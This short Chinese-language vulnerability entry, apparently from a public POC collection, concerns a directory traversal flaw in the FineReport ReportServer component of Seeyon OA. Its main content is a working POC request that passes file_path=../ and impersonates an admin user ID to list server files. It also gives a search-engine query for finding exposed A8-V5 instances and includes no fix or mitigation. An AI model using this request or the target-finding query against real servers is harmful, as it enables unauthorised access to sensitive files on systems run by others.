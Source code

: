 # 致远OA 帆软组件 ReportServer 目录遍历漏洞

## 漏洞描述

致远OA 帆软组件 ReportServer接口存在目录遍历漏洞，攻击者通过漏洞可以获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>致远OA 帆软组件 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="致远A8-V5协同管理软件 V6.1sp1"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1658380405460-276c39d7-9ccc-4136-b334-e6bf2353447d.png)

验证POC

```php
/seeyonreport/ReportServer?op=fs_remote_design&cmd=design_list_file&file_path=../&currentUserName=admin&currentUserId=1&isWebReport=true
```

![img](../../../.vuepress/public/img/1658380435375-7c6730da-7b22-4892-806c-f11da57d6e60.png)